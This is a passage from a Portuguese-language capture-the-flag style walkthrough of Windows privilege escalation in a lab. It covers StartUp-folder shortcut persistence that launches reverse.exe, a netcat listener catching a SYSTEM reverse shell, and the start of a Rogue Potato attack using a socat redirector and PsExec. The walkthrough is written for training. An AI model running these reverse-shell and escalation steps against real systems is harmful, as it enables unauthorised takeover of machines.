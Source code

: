 Então usando o `cscript` vamos criar um novo atalho para o exploit `reverse.exe` no diretório StartUp:

```powershell
PS C:\Users\user\Desktop> cscript C:\PrivEsc\CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

E então vamos reiniciar o sistema com o comando `rdesktop -u admin 10.10.244.78` logando como `admin` e esperar por uma conexão reversa:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:35:20
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.244.78] 49892
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
Agora vamos clicar no botão `Completed` para concluir esse topico.

---

## **<a id="16"> • Token Impersonation - Rogue Potato</a>**

Para explorar essa vulnerabilidade primeiramente temos que configurar um redirecionador socat no Kali, encaminhando a porta Kali 135 para a porta 9999 no Windows:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:52:34
╰──➤ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.244.78:9999

```

Agora vamos logar como admin no Windows utilizando o `rdesktop 10.10.244.78` e as credenciais `admin:password`:

<div class="page"/>

Vamos abrir o powershell como administador e executar o comando ` C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`:

```powershell
PS C:\Windows\system32> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\PrivEsc\reverse.exe exited on WIN-QBA94KB3IOF with error code 0.
```
